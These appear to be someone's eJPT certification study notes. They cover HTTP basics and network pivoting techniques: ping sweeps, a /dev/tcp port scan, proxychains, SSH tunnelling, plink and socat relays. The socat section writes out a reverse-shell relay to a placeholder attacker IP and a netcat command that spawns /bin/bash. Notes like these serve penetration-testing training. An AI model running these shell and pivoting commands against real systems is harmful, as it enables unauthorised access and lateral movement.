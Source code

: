```yaml
---
title: EJPT Notes
date: 2021-09-17
categories:
  - Notes
tags:
  - EJPT
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<h2 id="web_applications">Web Applications</h2>
<h3>HTTP</h3>
<p>
<ul>
  <li>HTTP works on top of TCP Protocol</li>
  <li>SYN-SYNACK-ACK(GET /html)-HTML Response-Close Connection</li>
  <li>HEADER: Header-Value</li>
  <li>User-Agent - Client software that's issuing the request - reveals OS/sysVersion</li>
  <li>Accept - Document type expected in the response</li>
  <li>Content-type - lets the client know hot to interpret the body of the msg.</li>
  <li>Cookie with http-only attreibute prevents Cookie stealing via XSS</li>
</ul>
</p>
<h3>HTTPS</h3>

<ul>
<li>nc doesnt do https - use openssl instead </li>
<li></li>

</ul>

<h2 id="pivoting">Pivoting</h2>
<h3>Bash Simple Ping sweep</h3>
<code>for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done</code>
<h3>Bash Simple portscan</h3>
<code>for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done</code>
<h3>Proxy tools</h3>
<h4>Proxychains</h4>
<p>example to proxy a netcat</p>
<code>proxychains nc 172.16.0.10 23</code>
<p>notes:</p>
  <ul>
    <li>when using nmap w/ proxychains comment out proxy_dns inside the proxychains.conf file</li>
    <li>only tcp scan will work</li>
    <li>udp, syn and ping scan wont work - use -Pn</li>
  </ul>
<h4>Foxyproxy</h4>
<p>proxy for routing browser traffic</p>
<h3>SSH Tunneling / Port Forwarding</h3>
<h4>Port Forwarding - Local: From attacker to victim via SSH</h4>
<p>Attacker --ssh--> 172.16.0.5 --http--> 172.16.0.5</p>
<code>ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN</code>
  <ul>
    <li>-f = backgrounds shell immediately</li>
    <li>-N = tells SSH that it doesn;t need to execute any commands - and just set up the connection</li>
  </ul>
<p>Now we can access the webserver on 172.16.0.10 using our own box localhost:8000</p>
<h5>Proxies</h5>
<code>ssh -D 1337 user@172.16.0.5 -fN</code>
<p>Will open port 1337 on attacker's machine as a proxy to send data through the 172.16.0.5 network - useful when combined with proxy chains -  just make sure proxy chains conf is configured correctly</p>
<h4>Reverse Connection</h4>
<p>used when we got a shell in the victim's machine but no SSH access</p>

<li>Generate ssh key - add pub to our attacker's authorized keys - add the following lines at the beginning of the pub key to prevent reverse shell and only allow port forwarding</li>
<code>command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty</code>
<code>ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN</code>
<p>we have a shell on victim(.05) and we want to use it as a reverse connection from our machine(.20) to webseserver victim(.10)</p>
<h4>Plink.exe for Windows</h4>
<p>Command line version of PuTTY SSH Client</p>
<p>reverse connection from victim to our attacker</p>
<code>cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N</code>
<p>.20 -  attacker | .05 victim that we have a shell from | .10 another victim</p>
<p>for the keyfile we need to convert it using puttygen tool</p>
<code>puttygen KEYFILE -o OUTPUT_KEY.ppk</code>
<h4>Socat</h4>
<p>Static Binaries for Socat</p>
<a href="https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat">Socat for Linux | </a>
<a href="https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download">Socat for Windows</a>
<p>Watch IPPSEC do hackthebox - worker</p>

<p>Reverse Shell Relay</p>
<code>./socat tcp-l:8000 tcp:ATTACKING_IP:443 &</code>
<ul>
  <li>tcp-l:8000 = used to create the first half of the connection -- ipv4 listener on tcp port 8000 of the victim</li>
  <li>tcp:attacking_ip:443 = connects back to our local IP on port 443</li>
  <li>& =  backgrounds the listener</li>
</ul>
<p>this will connect back to our machine so we need to setup a netcat listener</p>
<code>./nc-hyst 127.0.0.1 8000 -e /bin/bash</code>
<p>Port Forwarding using Socat</p>
<code>./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &</code>